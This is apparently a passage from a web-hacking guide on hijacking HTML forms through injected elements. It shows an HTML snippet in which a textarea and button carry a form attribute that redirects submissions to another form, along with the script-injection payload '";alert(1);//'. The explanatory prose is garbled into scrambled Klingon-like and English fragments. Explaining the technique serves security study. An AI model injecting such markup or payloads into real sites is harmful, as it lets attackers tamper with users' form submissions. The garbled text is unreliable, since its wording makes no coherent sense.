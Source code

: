 **Qa'vIn** **form** **tag** **vItlhutlh** **'e'** **'form'** **'attribute'** **ghItlh** **'e'** **'new entries'** **'add'** **'possible'**. **'Form'** **'inside'** **'new values'** **'add'** **'use'** **'can'** **'this'** **'to'** **'button'** **'new'** **'even'** **'send'** **'it'** **(clickjacking** **'or'** **'some'** **`.click()`** **'JS code'** **'abusing'**):

{% code overflow="wrap" %}
```html
<!--Add a new attribute and a new button to send-->
<textarea form=id-other-form name=info>
";alert(1);//
</textarea>
<button form=id-other-form type="submit" formaction="/edit" formmethod="post">
Click to send!
</button>
```
{% endcode %}

* [**button check this**](https://www.w3schools.com/tags/tag\_button.asp)**.**

## References

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
* [https://portswigger.net/web-security/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
* Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker.

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
